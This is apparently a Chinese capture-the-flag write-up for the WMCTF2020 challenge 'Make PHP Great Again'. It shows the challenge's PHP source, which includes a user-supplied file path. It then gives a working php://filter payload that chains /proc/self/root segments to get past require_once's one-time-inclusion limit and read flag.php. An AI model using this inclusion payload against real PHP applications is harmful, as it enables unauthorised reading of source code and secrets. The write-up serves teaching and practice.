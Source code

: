 # [WMCTF2020]Make PHP Great Again

## 知识点

`文件包含`

`绕过包含次数限制`

## 解题

题目首页直接给了`php`源码

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

发现已经包含了一次`flag.php`，`require_once`无法继续包含`flag.php`了

### 绕过包含次数限制

```php
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

路径中的`/proc/self/root`就表示`/` 所以`/proc/self/root/proc/self/root···`就一直表示`/`路径。至于为什么可以这样，可以看[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)的分析。